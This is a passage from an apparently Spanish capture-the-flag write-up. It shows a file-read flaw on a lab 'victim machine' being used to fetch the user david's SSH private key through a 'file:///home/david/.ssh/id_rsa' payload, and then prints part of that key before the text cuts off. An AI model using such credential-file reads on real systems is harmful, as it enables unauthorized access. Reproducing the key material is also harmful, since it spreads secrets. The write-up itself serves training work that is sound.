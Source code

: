 <figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando y estaremos leyendo el `passwd` de la maquina victima, por lo que vamos a probar a leer la `id_rsa` del usuario `david` que es el unico que vemos que esta registrado.

```
file:///home/david/.ssh/id_rsa
```

Info:

> id\_rsa

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA4pSlivZkgfHuXx9bWE+VxlG2hxpDcBHbTnKAyhnCILm4/pBcmOKj
pWMRke3wmgFU0xRtYDJb9uFTLGVY1BEIzBvCGEKbziTarcdWT99Js6ggcEFtqm0e4uGlD4
6tPTbNpmk9D3hYkjzF55maE+lU2PJdUP6l35nI45Kd6EpMf0Lrg4XvhIsjpw45ZvrNvwDU
yJyHgddwmI7gFVg/svx5x+iiah0jiD60PI5eQCnlq879sOx7GMNxg5fquos3Cvjqi8liij
Wdg9rEm8cowAgJeMkqTH/f7JqSRDzQ4vXNltLq8/o/nMmxoLnovfWTeIC9Rv7ZkGUv0NzA
ILBxVfVtDF1guvyNc6lDYaDhaC7mi665hgNpGnRsjukQP8Si4JnDbK0OhHko02CbOPUddH
XTGVIit+8d/9zmwV0dbbSUVeO4s99kN/W2HQ6btUcTUl2MCrMADcm7gwYQKWrWm+H8xBlK
my3I5eazYhNKkKYRFpSTn5OCxrrJoJkpeXz2eMK1AAAFiOamBhjmpgYYAAAAB3NzaC1yc2
EAAAGBAOKUpYr2ZIHx7l8fW1hPlcZRtocaQ3AR205ygMoZwiC5uP6QXJjio6VjEZHt8JoB
VNMUbWAyW/bhUyxlWNQRCMwbwhhCm84k2q3HVk/fSbOoIHBBbaptHuLhpQ+OrT02zaZpPQ
94WJI8xeeZmhPpVNjyXVD+pd+ZyOOSnehKTH9C64OF74SLI6cOOWb6zb8A1Mich4HXcJiO
4BVYP7L8ecfoomodI4g+tDyOXkAp5avO/bDsexjDcYOX6rqLNwr46ovJYoo1nYPaxJvHKM
AICXjJKkx/3+yakkQ80OL1zZbS6vP6P5zJsaC56L31k3iAvUb+2ZBlL9DcwCCwcVX1bQxd
YLr8jXOpQ2Gg4Wgu5ouuuYYDaRp0bI7pED/EouCZw2ytDoR5KNNgmzj1HXR10xlSIrfvHf
/c5sFdHW20lFXjuLPfZDf1th0Om7VHE1JdjAqzAA3Ju4MGEClq1pvh/MQZSpstyOXms2IT
SpCmERaUk5+Tgsa6yaCZKXl89njCtQAAAAMBAAEAAAGBAJgosN8YRjjJqoWwvhwZHgDXoR
crePxK0Zbl6D1QfQCTGHvDoJt/H9ySIht4yanymO9DeYwvZXjuqndW/Ac2BU1kmrzGBnGy
aDRpeDodPhZrIpWgKrBXpXVBiSJgc1B3fDVz2PCJphlWvKSij0kt2a/zWt1olSYK1VCWhn
qXYrXXz+c8S7Qb6G5oa/4PEZpiSYMLMyjr8A5TbIKJCAX/7RxlyqQuO01kpo9AIGVAfZ8a
W120AZqIrbNsktKBaQ5yR3TZFsu6YA/UWC3he8Yuo94dRRDvmIlfBGyg53HuHhgZBU8eYw
hrG1JTYiegztg8KVlQdlNcT2q6uTwEI0p5NHCVqO99tTPI/TrFVw9+B7fFwuKvhZclkDK8
NGU/xGKIoIL3h0bDKCjAGVGdMDkK8eA9oh5tcItwzkS5CrxgS9FpX0jgJaQ4RHSYfxpfGD
Cryyas4wAGkn0yejyCivINyoJdSVPoOZN/y1Wk3m1dWoGAvwx6ZAN4CVUolySNUudTwQAA
AMALaZYbWOPATwo+MdjIbzdSYa18RfGEpOlcBAy9JMdziccmr7bAoQvA8uFdeMNmvCW6lC
YU/49S8pZRjKBnSpHOtu40WzNMlMjE87Ej3EKewqMR49Jj0GUdakXMkhhhzh5lPCA5Z8LC
Mt1YEI3xBb0/p0BJTdD3PTI5oBVGL+1HXSwBbdltI9GqlfPuhTE6AGJw8oIAL81eXIJF4L
```